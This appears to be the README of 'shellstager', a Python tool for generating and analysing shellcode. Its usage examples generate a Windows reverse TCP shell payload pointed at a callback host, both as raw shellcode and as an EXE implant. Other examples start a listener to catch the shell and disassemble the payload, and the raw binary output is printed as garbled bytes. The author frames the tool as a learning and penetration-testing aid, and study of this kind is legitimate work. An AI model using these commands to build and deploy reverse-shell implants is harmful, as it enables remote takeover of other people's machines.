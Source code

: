 # shellstager

This tool helps on Shellcode understanding and development. It also includes Service Handler to help simulating remote attacks and for possible EDR rules creation.

```
$ ~/shellstager/ python shellstager.py payload -h
usage: payload [-h] [-l] [-s SEARCH_PAYLOAD] {add,get,disasm} ...

ShellStager - Shellcode maker for penetration testing.

positional arguments:
  {add,get,disasm}
    add                 Add new Payload script.
    get                 Get Payload data.
    disasm              Show Disassembly of Payload.

optional arguments:
  -h, --help            show this help message and exit
  -l, --list-payloads   List all available Payloads.
  -s SEARCH_PAYLOAD, --search-payload SEARCH_PAYLOAD
                        List all available Payloads.
```

**Dumping raw Shellcode to commandline**
```
$ ~/shellstager/ python shellstager.py payload get --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 -f raw
`1ۉd0[
8u};}$uXP$fHP څt>I411
           JPڋډЉD$$ZZaY[QX_[)TPh)kj
h`h\PPPP@P@Ph՗jVWhtaՅt
udjjVWh_Ճ~66j@hVjhXSSjVSWh_Ճ}%Xh@jPh
                                    /0WhunMa^^
                                              $p)uVjS%
```

**Creating an EXE implant/payload**
```
$ ~/shellstager/ python shellstager.py payload get --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 -f exe
MZ@     !L!T␤␋⎽ ⎻⎼⎺±⎼▒└ ␌▒┼┼⎺├ ␉␊ ⎼┤┼ ␋┼ DOS └⎺␍␊↓
$]┴⎽┴⎽┴⎽V▒┴⎽R␋␌␤┴⎽PEL␌␉

                        @ .text` ``1ۉd0[
8u};}$uXP$fHP څt>I411                   [K&1s(1<a|,
           JPڋډЉD$$ZZaY[QX_[)TPh)kj
h`h\PPPP@P@Ph՗jVWhtaՅt
udjjVWh_Ճ~66j@hVjhXSSjVSWh_Ճ}%Xh@jPh
                                    /0WhunMa^^
                                              $p)uVjS%
```

**Running the Service Handler**
```
$ ~/shellstager/ python shellstager.py handler run --payload windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444
[*] Started Reverse TCP handler for 172.20.96.252:4444

```

**Shellcode Disassembly**
```
$ ~/shellstager/ python shellstager.py payload disasm --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 --lines 30
[*] Showing 30 lines disassembly:
    0x0:        cld
    0x1:        call    0x96
    0x6:        pushal
    0x7:        xor     ebx, ebx
    0x9:        mov     ebp, esp
    0xb:        mov     ebx, dword ptr fs:[0x30]
    0x12:       mov     ebx, dword ptr [ebx + 0xc]
    0x15:       mov     ebx, dword ptr [ebx + 0x14]
    0x18:       movzx   ecx, word ptr [ebx + 0x26]
    0x1c:       xor     edi, edi
    0x1e:       mov     esi, dword ptr [ebx + 0x28]
    0x21:       xor     eax, eax
    0x23:       lodsb   al, byte ptr [esi]
    0x24:       cmp     al, 0x61
    0x26:       jl      0x2a
    0x28:       sub     al, 0x20
    0x2a:       ror     edi, 0xd
    0x2d:       add     edi, eax
    0x2f:       loop    0x21
    0x31:       push    ebx
    0x32:       push    edi
    0x33:       mov     ebx, dword ptr [ebx + 0x10]
    0x36:       mov     eax, dword ptr [ebx + 0x3c]
    0x39:       add     eax, ebx
    0x3b:       mov     eax, dword ptr [eax + 0x78]
    0x3e:       test    eax, eax
    0x40:       je      0x90
    0x42:       add     eax, ebx
    0x44:       push    eax
    0x45:       mov     ecx, dword ptr [eax + 0x18]
```

<br><br><br>
Note:<br>
*This is an attempt on understanding internals of Shellcodes in backdoors or implants if you will. Although that Metasploit was used to be written in Python, I write this as it is my way of learning things.*

<br><br>
References:
<br>MASM
<br>Metasploit
<br>Capstone
<br>Keystone
<br>pefile
